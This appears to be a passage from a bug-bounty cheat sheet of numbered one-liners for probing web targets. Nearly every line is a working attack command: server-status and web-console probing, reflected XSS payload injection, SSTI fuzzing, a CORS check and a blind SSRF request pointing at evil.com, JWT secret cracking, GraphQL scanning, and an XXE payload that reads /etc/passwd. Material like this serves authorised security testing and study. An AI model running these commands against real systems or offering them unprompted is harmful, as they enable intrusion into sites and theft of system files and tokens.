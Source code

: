 cat host.txt | httpx -path //server-status?full=true -status-code -content-length

cat host.txt | httpx -ports 80,443,8009,8080,8081,8090,8180,8443 -path /web-console/ -status-code -content-length

## 41. Reflected XSS

subfinder -d [abc.com](http://abc.com/) | httprobe -c 100 > target.txt cat target.txt | waybackurls | gf xss | kxss

gospider -a -s [abc.com](http://abc.com/) -t 3 -c 100 | tr " " "\\n" | grep -v ".js" | grep "https://" | grep "=" | qsreplace '%22><svg%20onload=confirm(1);>'

## 42. SSTI to RCE

waybackurls [http://target.com](http://target.com/) | qsreplace "abc{{9\*9}}" > fuzz.txt ffuf -u FUZZ -w fuzz.txt -replay-proxy [http://127.0.0.1:8080/](http://127.0.0.1:8080/)

## 43. Dump In-scope Assets from chaos-bugbounty-list

curl -sL [https://github.com/projectdiscovery/public-bugbounty-programs/raw/master/chaos-bugbounty-list.json](https://github.com/projectdiscovery/public-bugbounty-programs/raw/master/chaos-bugbounty-list.json) | jq -r '.programs\[\].domains | to\_entries | .\[\].value'

## 44. CORS (Cross-Origin Resource Sharing) testing

curl -I -H 'Origin: [https://evil.com](https://evil.com/)' '[https://target.com/api.php](https://target.com/api.php)'

## 45. Blind SSRF (Server-Side Request Forgery) testing with time-based payloads

time curl -s '[https://target.com/api.php?url=http://evil.com&secret\\_token=123](https://target.com/api.php?url=http://evil.com&secret%5C%5C_token=123)' -H 'X-Forwarded-For: 127.0.0.1'

## 46. JWT (JSON Web Token) testing with jwt\_tool

jwt\_tool.py -t eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV\_adQssw5c -k secret

## 47. GraphQL testing with gqlmap

[gqlmap.py](http://gqlmap.py/) -u '[https://target.com/graphql](https://target.com/graphql)' -t GET --level 2

## 48. XXE (XML External Entity) injection testing with Burp Suite

curl -d '<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE foo \[<!ELEMENT foo ANY><!ENTITY xxe SYSTEM "file:///etc/passwd">\]><foo>&xxe;</foo>' '[https://target.com/xxe.php](https://target.com/xxe.php)' | base64 -w 0 | pbcopy
